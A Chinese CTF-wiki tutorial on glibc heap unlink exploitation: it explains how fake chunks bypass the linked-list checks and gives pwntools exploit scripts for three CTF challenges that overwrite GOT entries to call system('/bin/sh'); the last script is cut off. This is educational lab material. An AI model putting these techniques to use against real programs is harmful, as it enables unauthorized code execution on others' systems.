

# Unlink

## 原理

我們在利用 unlink 所造成的漏洞時，其實就是對 chunk 進行內存佈局，然後藉助 unlink 操作來達成修改指針的效果。

我們先來簡單回顧一下 unlink 的目的與過程，其目的是把一個雙向鏈表中的空閒塊拿出來（例如 free 時和目前物理相鄰的 free chunk 進行合併）。其基本的過程如下



下面我們首先介紹一下 unlink 最初沒有防護時的利用方法，然後介紹目前利用 unlink 的方式。

### 古老的 unlink

在最初 unlink 實現的時候，其實是沒有對 chunk 的 size 檢查和雙向鏈表檢查的，即沒有如下檢查代碼。

```c
// 由於 P 已經在雙向鏈表中，所以有兩個地方記錄其大小，所以檢查一下其大小是否一致(size檢查)
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");			      \
// 檢查 fd 和 bk 指針(雙向鏈表完整性檢查)
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \

  // largebin 中 next_size 雙向鏈表完整性檢查 
              if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)              \
                || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
              malloc_printerr (check_action,                                      \
                               "corrupted double-linked list (not small)",    \
                               P, AV);
```
**這裏我們以 32 位爲例**，假設堆內存最初的佈局是下面的樣子


現在有物理空間連續的兩個 chunk（Q，Nextchunk），其中 Q 處於使用狀態、Nextchunk 處於釋放狀態。那麼如果我們通過某種方式（**比如溢出**）將 Nextchunk 的 fd 和 bk 指針修改爲指定的值。則當我們free(Q)時

- glibc 判斷這個塊是 small chunk
- 判斷前向合併，發現前一個 chunk 處於使用狀態，不需要前向合併
- 判斷後向合併，發現後一個 chunk 處於空閒狀態，需要合併
- 繼而對 Nextchunk 採取 unlink 操作

那麼 unlink 具體執行的效果是什麼樣子呢？我們可以來分析一下

- FD=P->fd = target addr -12
- BK=P->bk = expect value
- FD->bk = BK，即 *(target addr-12+12)=BK=expect value
- BK->fd = FD，即*(expect value +8) = FD = target addr-12

**看起來我們似乎可以通過 unlink 直接實現任意地址讀寫的目的，但是我們還是需要確保 expect value +8 地址具有可寫的權限。**

比如說我們將 target addr 設置爲某個 got 表項，那麼當程序調用對應的 libc 函數時，就會直接執行我們設置的值（expect value）處的代碼。**需要注意的是，expect value+8 處的值被破壞了，需要想辦法繞過。**

### 當前的 unlink

**但是，現實是殘酷的。。**我們剛纔考慮的是沒有檢查的情況，但是一旦加上檢查，就沒有這麼簡單了。我們看一下對 fd 和 bk 的檢查

```c
// fd bk
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
```

此時

- FD->bk = target addr - 12 + 12=target_addr
- BK->fd = expect value + 8

那麼我們上面所利用的修改 GOT 表項的方法就可能不可用了。但是我們可以通過僞造的方式繞過這個機制。

首先我們通過覆蓋，將 nextchunk 的 FD 指針指向了 fakeFD，將 nextchunk 的 BK 指針指向了 fakeBK 。那麼爲了通過驗證，我們需要

- `fakeFD -> bk == P`  <=>  `*(fakeFD + 12) == P`
- `fakeBK -> fd == P`  <=>  `*(fakeBK + 8) == P`

當滿足上述兩式時，可以進入 Unlink 的環節，進行如下操作：

- `fakeFD -> bk = fakeBK`  <=>  `*(fakeFD + 12) = fakeBK`
- `fakeBK -> fd = fakeFD`  <=>  `*(fakeBK + 8) = fakeFD`

如果讓 fakeFD + 12 和 fakeBK + 8 指向同一個指向P的指針，那麼：

- `*P = P - 8`
- `*P = P - 12`

即通過此方式，P 的指針指向了比自己低 12 的地址處。此方法雖然不可以實現任意地址寫，但是可以修改指向 chunk 的指針，這樣的修改是可以達到一定的效果的。

如果我們想要使得兩者都指向 P，只需要按照如下方式修改即可


需要注意的是，這裏我們並沒有違背下面的約束，因爲 P 在 Unlink 前是指向正確的 chunk 的指針。

```c
    // 由於P已經在雙向鏈表中，所以有兩個地方記錄其大小，所以檢查一下其大小是否一致。
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");			      \
```

**此外，其實如果我們設置next chunk 的 fd 和 bk 均爲 nextchunk 的地址也是可以繞過上面的檢測的。但是這樣的話，並不能達到修改指針內容的效果。**

## 利用思路

### 條件

1. UAF ，可修改 free 狀態下 smallbin 或是 unsorted bin 的 fd 和 bk 指針
2. 已知位置存在一個指針指向可進行 UAF 的 chunk

### 效果

使得已指向 UAF chunk 的指針 ptr 變爲 ptr - 0x18

### 思路

設指向可 UAF chunk 的指針的地址爲 ptr

1. 修改 fd 爲 ptr - 0x18
2. 修改 bk 爲 ptr - 0x10
3. 觸發 unlink

ptr 處的指針會變爲 ptr - 0x18。

## 2014 HITCON stkof

[題目鏈接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/unlink/2014_hitcon_stkof)

### 基本信息

```shell
➜  2014_hitcon_stkof git:(master) file stkof
stkof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4872b087443d1e52ce720d0a4007b1920f18e7b0, stripped
➜  2014_hitcon_stkof git:(master) checksec stkof
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/unlink/2014_hitcon_stkof/stkof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

可以看出，程序是 64 位的，主要開啓了 Canary 和 NX 保護。

### 基本功能

程序存在 4 個功能，經過 IDA 分析後可以分析功能如下

- alloc：輸入 size，分配 size 大小的內存，並在 bss 段記錄對應 chunk 的指針，假設其爲 global
- read_in：根據指定索引，向分配的內存處讀入數據，數據長度可控，**這裏存在堆溢出的情況**
- free：根據指定索引，釋放已經分配的內存塊
- useless：這個功能並沒有什麼卵用，本來以爲是可以輸出內容，結果什麼也沒有輸出

### IO 緩衝區問題分析

值得注意的是，由於程序本身沒有進行 setbuf 操作，所以在執行輸入輸出操作的時候會申請緩衝區。這裏經過測試，會申請兩個緩衝區，分別大小爲 1024 和 1024。具體如下，可以進行調試查看

初次調用 fgets 時，malloc 會分配緩衝區 1024 大小。

```
*RAX  0x0
*RBX  0x400
*RCX  0x7ffff7b03c34 (__fxstat64+20) ◂— cmp    rax, -0x1000 /* 'H=' */
*RDX  0x88
*RDI  0x400
*RSI  0x7fffffffd860 ◂— 0x16
*R8   0x1
*R9   0x0
*R10  0x7ffff7fd2700 ◂— 0x7ffff7fd2700
*R11  0x246
*R12  0xa
*R13  0x9
 R14  0x0
*R15  0x7ffff7dd18e0 (_IO_2_1_stdin_) ◂— 0xfbad2288
*RBP  0x7ffff7dd18e0 (_IO_2_1_stdin_) ◂— 0xfbad2288
*RSP  0x7fffffffd858 —▸ 0x7ffff7a7a1d5 (_IO_file_doallocate+85) ◂— mov    rsi, rax
*RIP  0x7ffff7a91130 (malloc) ◂— push   rbp
─────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────
 ► 0x7ffff7a91130 <malloc>        push   rbp <0x7ffff7dd18e0>
...，省略
 ► f 0     7ffff7a91130 malloc
   f 1     7ffff7a7a1d5 _IO_file_doallocate+85
   f 2     7ffff7a88594 _IO_doallocbuf+52
   f 3     7ffff7a8769c _IO_file_underflow+508
   f 4     7ffff7a8860e _IO_default_uflow+14
   f 5     7ffff7a7bc6a _IO_getline_info+170
   f 6     7ffff7a7bd78
   f 7     7ffff7a7ab7d fgets+173
   f 8           400d2e
   f 9     7ffff7a2d830 __libc_start_main+240
```

分配之後，堆如下

```
pwndbg> heap
Top Chunk: 0xe05410
Last Remainder: 0

0xe05000 PREV_INUSE {
  prev_size = 0,
  size = 1041,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0xe05410 PREV_INUSE {
  prev_size = 0,
  size = 134129,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
```

當分配16大小的內存後，堆佈局如下

```
pwndbg> heap
Top Chunk: 0xe05430
Last Remainder: 0

0xe05000 PREV_INUSE {
  prev_size = 0,
  size = 1041,
  fd = 0xa3631,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0xe05410 FASTBIN {
  prev_size = 0,
  size = 33,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x20bd1
}
0xe05430 PREV_INUSE {
  prev_size = 0,
  size = 134097,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
```

當使用 printf 函數，會分配 1024 字節空間，如下

```
*RAX  0x0
*RBX  0x400
*RCX  0x7ffff7b03c34 (__fxstat64+20) ◂— cmp    rax, -0x1000 /* 'H=' */
*RDX  0x88
*RDI  0x400
*RSI  0x7fffffffd1c0 ◂— 0x16
 R8   0x0
*R9   0x0
*R10  0x0
*R11  0x246
*R12  0x1
*R13  0x7fffffffd827 ◂— 0x31 /* '1' */
 R14  0x0
*R15  0x400de4 ◂— and    eax, 0x2e000a64 /* '%d\n' */
*RBP  0x7ffff7dd2620 (_IO_2_1_stdout_) ◂— 0xfbad2284
*RSP  0x7fffffffd1b8 —▸ 0x7ffff7a7a1d5 (_IO_file_doallocate+85) ◂— mov    rsi, rax
*RIP  0x7ffff7a91130 (malloc) ◂— push   rbp
─────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────
 ► 0x7ffff7a91130 <malloc>       push   rbp <0x7ffff7dd2620>
。。。省略
► f 0     7ffff7a91130 malloc
   f 1     7ffff7a7a1d5 _IO_file_doallocate+85
   f 2     7ffff7a88594 _IO_doallocbuf+52
   f 3     7ffff7a878f8 _IO_file_overflow+456
   f 4     7ffff7a8628d _IO_file_xsputn+173
   f 5     7ffff7a5ae00 vfprintf+3216
   f 6     7ffff7a62899 printf+153
   f 7           4009cd
   f 8           400cb1
   f 9     7ffff7a2d830 __libc_start_main+240

```

堆佈局如下

```
pwndbg> heap
Top Chunk: 0xe05840
Last Remainder: 0

0xe05000 PREV_INUSE {
  prev_size = 0,
  size = 1041,
  fd = 0xa3631,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0xe05410 FASTBIN {
  prev_size = 0,
  size = 33,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x411
}
0xe05430 PREV_INUSE {
  prev_size = 0,
  size = 1041,
  fd = 0xa4b4f,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0xe05840 PREV_INUSE {
  prev_size = 0,
  size = 133057,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
```

此後，無論是輸入輸出都不會再申請緩衝區了。所以我們最好最初的申請一個 chunk 來把這些緩衝區給申請了，方便之後操作。

但是，比較有意思的是，如果我們是 attach 上去的話，第一個緩衝區分配的大小爲 4096 大小。

```
pwndbg> heap
Top Chunk: 0x1e9b010
Last Remainder: 0

0x1e9a000 PREV_INUSE {
  prev_size = 0,
  size = 4113,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0x1e9b010 PREV_INUSE {
  prev_size = 0,
  size = 135153,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}

```

### 基本思路

根據上面分析，我們在前面先分配一個 chunk 來把緩衝區分配完畢，以免影響之後的操作。

由於程序本身沒有 leak，要想執行 system 等函數，我們的首要目的還是先構造 leak，基本思路如下

- 利用 unlink 修改 global[2] 爲 &global[2]-0x18。
- 利用編輯功能修改 global[0] 爲 free@got 地址，同時修改 global[1] 爲puts@got 地址，global[2] 爲 atoi@got 地址。
- 修改 `free@got` 爲 `puts@plt` 的地址，從而當再次調用 `free` 函數時，即可直接調用 puts 函數。這樣就可以泄漏函數內容。
- free global[1]，即泄漏 puts@got 內容，從而知道 system 函數地址以及 libc 中 /bin/sh 地址。
- 修改 `atoi@got` 爲 system 函數地址，再次調用時，輸入 /bin/sh 地址即可。

代碼如下

```python
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./stkof"
stkof = ELF('./stkof')
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./stkof")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')
head = 0x602140


def alloc(size):
    p.sendline('1')
    p.sendline(str(size))
    p.recvuntil('OK\n')


def edit(idx, size, content):
    p.sendline('2')
    p.sendline(str(idx))
    p.sendline(str(size))
    p.send(content)
    p.recvuntil('OK\n')


def free(idx):
    p.sendline('3')
    p.sendline(str(idx))


def exp():
    # trigger to malloc buffer for io function
    alloc(0x100)  # idx 1
    # begin
    alloc(0x30)  # idx 2
    # small chunk size in order to trigger unlink
    alloc(0x80)  # idx 3
    # a fake chunk at global[2]=head+16 who's size is 0x20
    payload = p64(0)  #prev_size
    payload += p64(0x20)  #size
    payload += p64(head + 16 - 0x18)  #fd
    payload += p64(head + 16 - 0x10)  #bk
    payload += p64(0x20)  # next chunk's prev_size bypass the check
    payload = payload.ljust(0x30, 'a')

    # overwrite global[3]'s chunk's prev_size
    # make it believe that prev chunk is at global[2]
    payload += p64(0x30)

    # make it believe that prev chunk is free
    payload += p64(0x90)
    edit(2, len(payload), payload)

    # unlink fake chunk, so global[2] =&(global[2])-0x18=head-8
    free(3)
    p.recvuntil('OK\n')

    # overwrite global[0] = free@got, global[1]=puts@got, global[2]=atoi@got
    payload = 'a' * 8 + p64(stkof.got['free']) + p64(stkof.got['puts']) + p64(
        stkof.got['atoi'])
    edit(2, len(payload), payload)

    # edit free@got to puts@plt
    payload = p64(stkof.plt['puts'])
    edit(0, len(payload), payload)

    # free global[1] to leak puts addr
    free(1)
    puts_addr = p.recvuntil('\nOK\n', drop=True).ljust(8, '\x00')
    puts_addr = u64(puts_addr)
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))
    system_addr = libc_base + libc.symbols['system']
    log.success('libc base: ' + hex(libc_base))
    log.success('/bin/sh addr: ' + hex(binsh_addr))
    log.success('system addr: ' + hex(system_addr))

    # modify atoi@got to system addr
    payload = p64(system_addr)
    edit(2, len(payload), payload)
    p.send(p64(binsh_addr))
    p.interactive()


if __name__ == "__main__":
    exp()
```

## 2016 ZCTF note2
[題目鏈接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/unlink/2016_zctf_note2)

### 分析程序

首先，我們先分析一下程序，可以看出程序的主要功能爲

- 添加note，size限制爲0x80，size會被記錄，note指針會被記錄。
- 展示note內容。
- 編輯note內容，其中包括覆蓋已有的note，在已有的note後面添加內容。
- 釋放note。

仔細分析後，可以發現程序有以下幾個問題

1. 在添加note時，程序會記錄note對應的大小，該大小會用於控制讀取note的內容，但是讀取的循環變量i是無符號變量，所以比較時都會轉換爲無符號變量，那麼當我們輸入size爲0時，glibc根據其規定，會分配0x20個字節，但是程序讀取的內容卻並不受到限制，故而會產生堆溢出。
2. 程序在每次編輯note時，都會申請0xa0大小的內存，但是在 free 之後並沒有設置爲NULL。

第一個問題對應在ida中的代碼如下

```c
unsigned __int64 __fastcall ReadLenChar(__int64 a1, __int64 a2, char a3)
{
  char v4; // [sp+Ch] [bp-34h]@1
  char buf; // [sp+2Fh] [bp-11h]@2
  unsigned __int64 i; // [sp+30h] [bp-10h]@1
  __int64 v7; // [sp+38h] [bp-8h]@2

  v4 = a3;
  for ( i = 0LL; a2 - 1 > i; ++i )
  {
    v7 = read(0, &buf, 1uLL);
    if ( v7 <= 0 )
      exit(-1);
    if ( buf == v4 )
      break;
    *(_BYTE *)(i + a1) = buf;
  }
  *(_BYTE *)(a1 + i) = 0;
  return i;
}
```

其中i是unsigned類型，a2爲int類型，所以兩者在for循環相比較的時候，a2-1的結果-1會被視爲unsigned類型，此時，即最大的整數。所以說可以讀取任意長度的數據，這裏也就是後面我們溢出所使用的辦法。

### 基本思路

這裏我們主要利用發現的第一個問題，主要利用了 fastbin 的機制、unlink 的機制。

下面依次進行講解。

#### 基本操作

首先，我們先把note可能的基本操作列舉出來。

```python
p = process('./note2')
note2 = ELF('./note2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.log_level = 'debug'


def newnote(length, content):
    p.recvuntil('option--->>')
    p.sendline('1')
    p.recvuntil('(less than 128)')
    p.sendline(str(length))
    p.recvuntil('content:')
    p.sendline(content)


def shownote(id):
    p.recvuntil('option--->>')
    p.sendline('2')
    p.recvuntil('note:')
    p.sendline(str(id))


def editnote(id, choice, s):
    p.recvuntil('option--->>')
    p.sendline('3')
    p.recvuntil('note:')
    p.sendline(str(id))
    p.recvuntil('2.append]')
    p.sendline(str(choice))
    p.sendline(s)


def deletenote(id):
    p.recvuntil('option--->>')
    p.sendline('4')
    p.recvuntil('note:')
    p.sendline(str(id))
```

#### 生成三個note

構造三個 chunk，chunk0、chunk1 和 chunk2

```python
# chunk0: a fake chunk
ptr = 0x0000000000602120
fakefd = ptr - 0x18
fakebk = ptr - 0x10
content = 'a' * 8 + p64(0x61) + p64(fakefd) + p64(fakebk) + 'b' * 64 + p64(0x60)
#content = p64(fakefd) + p64(fakebk)
newnote(128, content)
# chunk1: a zero size chunk produce overwrite
newnote(0, 'a' * 8)
# chunk2: a chunk to be overwrited and freed
newnote(0x80, 'b' * 16)
```

其中這三個 chunk 申請時的大小分別爲0x80，0，0x80，chunk1 雖然申請的大小爲0，但是 glibc 的要求 chunk 塊至少可以存儲 4 個必要的字段(prev\_size,size,fd,bk)，所以會分配 0x20 的空間。同時，由於無符號整數的比較問題，可以爲該note輸入任意長的字符串。

這裏需要注意的是，chunk0 中一共構造了兩個 chunk

- chunk ptr[0]，這個是爲了 unlink 時修改對應的值。
- chunk ptr[0]'s nextchunk，這個是爲了使得 unlink 時的第一個檢查滿足。

```c
    // 由於P已經在雙向鏈表中，所以有兩個地方記錄其大小，所以檢查一下其大小是否一致。
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");			      \
```

當構造完三個 note 後，堆的基本構造如圖1所示。

```
                                   +-----------------+ high addr
                                   |      ...        |
                                   +-----------------+
                                   |      'b'*8      |
                ptr[2]-----------> +-----------------+
                                   |    size=0x91    |
                                   +-----------------+
                                   |    prevsize     |
                                   +-----------------|------------
                                   |    unused       |
                                   +-----------------+
                                   |    'a'*8        |
                 ptr[1]----------> +-----------------+  chunk 1
                                   |    size=0x20    |
                                   +-----------------+
                                   |    prevsize     |
                                   +-----------------|-------------
                                   |    unused       |
                                   +-----------------+
                                   |  prev_size=0x60 |
fake ptr[0] chunk's nextchunk----->+-----------------+
                                   |    64*'a'       |
                                   +-----------------+
                                   |    fakebk       |
                                   +-----------------+
                                   |    fakefd       |
                                   +-----------------+
                                   |    0x61         |  chunk 0
                                   +-----------------+
                                   |    'a *8        |
                 ptr[0]----------> +-----------------+
                                   |    size=0x91    |
                                   +-----------------+
                                   |    prev_size    |
                                   +-----------------+  low addr
                                           圖1
```

#### 釋放 chunk1-覆蓋 chunk2-釋放 chunk2

對應的代碼如下

```python
# edit the chunk1 to overwrite the chunk2
deletenote(1)
content = 'a' * 16 + p64(0xa0) + p64(0x90)
newnote(0, content)
# delete note 2 to trigger the unlink
# after unlink, ptr[0] = ptr - 0x18
deletenote(2)
```

首先釋放 chunk1，由於該chunk屬於fastbin，所以下次在申請的時候仍然會申請到該chunk，同時由於上面所說的類型問題，我們可以讀取任意字符，所以就可以覆蓋chunk2，覆蓋之後如圖2所示。

```
                                   +-----------------+high addr
                                   |      ...        |
                                   +-----------------+
                                   |   '\x00'+'b'*7  |
                ptr[2]-----------> +-----------------+ chunk 2
                                   |    size=0x90    |
                                   +-----------------+
                                   |    0xa0         |
                                   +-----------------|------------
                                   |    'a'*8        |
                                   +-----------------+
                                   |    'a'*8        |
                 ptr[1]----------> +-----------------+ chunk 1
                                   |    size=0x20    |
                                   +-----------------+
                                   |    prevsize     |
                                   +-----------------|-------------
                                   |    unused       |
                                   +-----------------+
                                   |  prev_size=0x60 |
fake ptr[0] chunk's nextchunk----->+-----------------+
                                   |    64*'a'       |
                                   +-----------------+
                                   |    fakebk       |
                                   +-----------------+
                                   |    fakefd       |
                                   +-----------------+
                                   |    0x61         |  chunk 0
                                   +-----------------+
                                   |    'a *8        |
                 ptr[0]----------> +-----------------+
                                   |    size=0x91    |
                                   +-----------------+
                                   |    prev_size    |
                                   +-----------------+  low addr
                                           圖2
```

該覆蓋主要是爲了釋放chunk2的時候可以後向合併（合併低地址），對chunk0中虛擬構造的chunk進行unlink。即將要執行的操作爲unlink(ptr[0])，同時我們所構造的fakebk和fakefd滿足如下約束

```c
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
```

unlink成功執行，會導致ptr[0]所存儲的地址變爲fakebk，即ptr-0x18。

#### 獲取system地址

代碼如下

```python
# overwrite the chunk0(which is ptr[0]) with got atoi
atoi_got = note2.got['atoi']
content = 'a' * 0x18 + p64(atoi_got)
editnote(0, 1, content)
# get the aoti addr
shownote(0)

sh.recvuntil('is ')
atoi_addr = sh.recvuntil('\n', drop=True)
print atoi_addr
atoi_addr = u64(atoi_addr.ljust(8, '\x00'))
print 'leak atoi addr: ' + hex(atoi_addr)

# get system addr
atoi_offest = libc.symbols['atoi']
libcbase = atoi_addr - atoi_offest
system_offest = libc.symbols['system']
system_addr = libcbase + system_offest

print 'leak system addr: ', hex(system_addr)
```

我們修改ptr[0]的內容爲 ptr 的地址-0x18，所以當我們再次編輯 note0 時，可以覆蓋ptr[0]的內容。這裏我們將其覆蓋爲atoi的地址。
這樣的話，如果我們查看note 0的內容，其實查看的就是atoi的地址。

之後我們根據 libc 中對應的偏移計算出 system 的地址。

#### 修改atoi got

```python
# overwrite the atoi got with systemaddr
content = p64(system_addr)
editnote(0, 1, content)
```

由於此時 ptr[0] 的地址 got 表的地址，所以我們可以直接修改該 note，覆蓋爲 system 地址。

#### get shell

```python
# get shell
sh.recvuntil('option--->>')
sh.sendline('/bin/sh')
sh.interactive()
```

此時如果我們再調用 atoi ，其實調用的就是 system 函數，所以就可以拿到shell了。

## 2017 insomni'hack wheelofrobots
[題目鏈接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/unlink/2017_insomni'hack_wheelofrobots)

### 基本信息

```shell
➜  2017_insomni'hack_wheelofrobots git:(master) file wheelofrobots
wheelofrobots: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=48a9cceeb7cf8874bc05ccf7a4657427fa4e2d78, stripped
➜  2017_insomni'hack_wheelofrobots git:(master) checksec wheelofrobots
[*] "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/unlink/2017_insomni'hack_wheelofrobots/wheelofrobots"
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

動態鏈接64位，主要開啓了 canary 保護與 nx 保護。

### 基本功能

大概分析程序，可以得知，這是一個配置機器人輪子的遊戲，機器人一共需要添加 3 個輪子。

程序非常依賴的一個功能是讀取整數，該函數read_num是讀取指定的長度，將其轉化爲 int 類型的數字。

具體功能如下

- 添加輪子，一共有 6 個輪子可以選擇。選擇輪子時使用函數是read_num，然而該函數在讀取的時候`read_num((char *)&choice, 5uLL);` 讀取的長度是 5 個字節，恰好覆蓋了 bender_inuse 的最低字節，即構成了 off-by-one 漏洞。與此同時，在添加 Destructor 輪子的時候，並沒有進行大小檢測。如果讀取的數爲負數，那麼在申請`calloc(1uLL, 20 * v5);` 時就可能導致 `20*v5` 溢出，但與此同時， `destructor_size = v5`  仍然會很大。
- 移除輪子，直接將相應輪子移除，但是並沒有將其對應的指針設置爲 NULL ，其對應的大小也沒有清空。
- 修改輪子名字，這個是根據當時申請的輪子的大小空間來讀取數據。之前我們已經說過 destructor 輪子讀取大小時，並沒有檢測負數的情況，所以在進行如下操作時 `result = read(0, destructor, 20 * destructor_size);` ，存在幾乎任意長度溢出的漏洞。
- 啓動機器人，在啓動的時候會隨機地輸出一些輪子的名稱，這個是我們難以控制的。

綜上分析，我們可以知道的是，該程序主要存在的漏洞 off-by-one 與整數溢出。這裏我們主要使用前面的off-by-one 漏洞。

### 利用思路

基本利用思路如下

1. 利用 off by one 漏洞與 fastbin attack 分配 chunk 到 0x603138，進而可以控制 `destructor_size `的大小，從而實現任意長度堆溢出。這裏我們將輪子1 tinny 分配到這裏。
2. 分別分配合適大小的物理相鄰的 chunk，其中包括 destructor。藉助上面可以任意長度堆溢出的漏洞，對 destructor 對應的 chunk 進行溢出，將其溢出到下一個物理相鄰的 chunk，從而實現對 0x6030E8 處 fake chunk 進行 unlink 的效果，這時 bss 段的 destructor 指向 0x6030D0。從而，我們可以再次實現覆蓋bss 段幾乎所有的內容。
3. 構造一個任意地址寫的漏洞。通過上述的漏洞將已經分配的輪子1 tinny 指針覆蓋爲 destructor 的地址，那麼此後編輯 tinny 即在編輯 destructor 的內容，進而當我們再次編輯 destructor 時就相當於任意低地址寫。
4. 由於程序只是在最後啓動機器人的時候，纔會隨機輸出一些輪子的內容，並且一旦輸出，程序就會退出，由於這部分我們並不能控制，所以我們將 `exit()` patch 爲一個 `ret` 地址。這樣的話，我們就可以多次輸出內容了，從而可以泄漏一些 got 表地址。**其實，既然我們有了任意地址寫的漏洞，我們也可以將某個 got 寫爲 puts 的 plt 地址，進而調用相應函數時便可以直接將相應內容輸出。但是這裏並不去採用這種方法，因爲之前已經在 hitcon stkof 中用過這種手法了。**
5. 在泄漏了相應的內容後，我們便可以得到 libc 基地址，system 地址，libc中的 /bin/sh 地址。進而我們修改 free@got 爲 system 地址。從而當再次釋放某塊內存時，便可以啓動shell。

代碼如下

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./wheelofrobots"
robots = ELF('./wheelofrobots')
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./wheelofrobots")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')


def offset_bin_main_arena(idx):
    word_bytes = context.word_size / 8
    offset = 4  # lock
    offset += 4  # flags
    offset += word_bytes * 10  # offset fastbin
    offset += word_bytes * 2  # top,last_remainder
    offset += idx * 2 * word_bytes  # idx
    offset -= word_bytes * 2  # bin overlap
    return offset


def add(idx, size=0):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Your choice :')
    p.sendline(str(idx))
    if idx == 2:
        p.recvuntil("Increase Bender's intelligence: ")
        p.sendline(str(size))
    elif idx == 3:
        p.recvuntil("Increase Robot Devil's cruelty: ")
        p.sendline(str(size))
    elif idx == 6:
        p.recvuntil("Increase Destructor's powerful: ")
        p.sendline(str(size))


def remove(idx):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Your choice :')
    p.sendline(str(idx))


def change(idx, name):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Your choice :')
    p.sendline(str(idx))
    p.recvuntil("Robot's name: \n")
    p.send(name)


def start_robot():
    p.recvuntil('Your choice :')
    p.sendline('4')


def overflow_benderinuse(inuse):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Your choice :')
    p.send('9999' + inuse)


def write(where, what):
    change(1, p64(where))
    change(6, p64(what))


def exp():
    print "step 1"

    # add a fastbin chunk 0x20 and free it
    # so it is in fastbin, idx2->NULL
    add(2, 1)  # idx2
    remove(2)

    # overflow bender inuse with 1
    overflow_benderinuse('\x01')

    # change bender's fd to 0x603138, point to bender's size
    # now fastbin 0x20, idx2->0x603138->NULL
    change(2, p64(0x603138))

    # in order add bender again
    overflow_benderinuse('\x00')

